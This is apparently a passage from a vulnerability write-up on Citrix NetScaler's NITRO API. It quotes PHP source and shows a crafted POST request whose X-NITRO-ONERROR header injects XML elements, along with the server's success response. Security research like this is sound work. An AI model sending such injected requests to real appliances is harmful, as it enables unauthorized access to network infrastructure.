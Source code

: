 ```php
                header("HTTP/1.1 400 Bad Request");
                $this->print_error_message("Invalid Xml Payload. Mismatch between content-type and payload");
                return false;
            }
        }

    $xml = "<nitroRequest>\n" . "" . $content . "" .  $this->arrayToXMLString($params,"params") . "</nitroRequest>";
    return $xml;
}
```

This means that we have control over the elements that are put into this XML document. This XML is returned through several functions, and finally ends up in a variable called `$post_body` which is given as an argument to the function `nsrest_exec()`. The output of that function call is sent to the `send_reponse()` function:
```php
$response = nsrest_exec($is_gui, $this->request_method, $post_body, $this->username, $this->password, $this->get_client_ip(), $_SERVER["SERVER_ADDR"], $partid);
    if($this->is_direct_invocation)
        return $response["response"];
    $this->send_response($response, $this->request_method, $this->validate_and_get_entity_type($arg_list), $is_gui);
```

The `nsrest_exec()` function is a custom PHP function shipped by Citrix in a library file called `libphp7.so`. This function either returns an XML object upon successful execution, or `FALSE` if it fails. Somewhere along the line `FALSE` turns to `NULL` and `NULL` turns to `0`. I don't know the exact inner workings of `nsrest_exec` but long story short: invalid XML in `X-NITRO-ONERROR` means a response that indicates all is well.

For example, this request containing invalid XML:
```http
POST /nitro/v1/config/server HTTP/1.1
Host: citrix.local
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/xml
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://citrix.local/menu/neo
Content-Type: application/xml
If-Modified-Since: Thu, 01 Jan 1970 05:30:00 GMT
DNT: 1
Connection: close
Content-Length: 17
X-NITRO-ONERROR: exit</onerror><idempotent>yes</idempotent><format>xml</format><rawdata>yes</rawdata></params><server></server><params><onerror

<server></server>
```

Will return this response:
```http
HTTP/1.1 201 Created
Date: Tue, 28 Jan 2020 10:52:07 GMT
Server: Apache
X-Frame-Options: SAMEORIGIN
Set-Cookie: SESSID=deleted; expires=Thu, 01-Jan-1970 00:00:01 GMT; Max-Age=0; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
X-XSS-Protection: 1; mode=block
Content-Length: 126
Connection: close
Content-Type: application/xml; charset=utf-8
```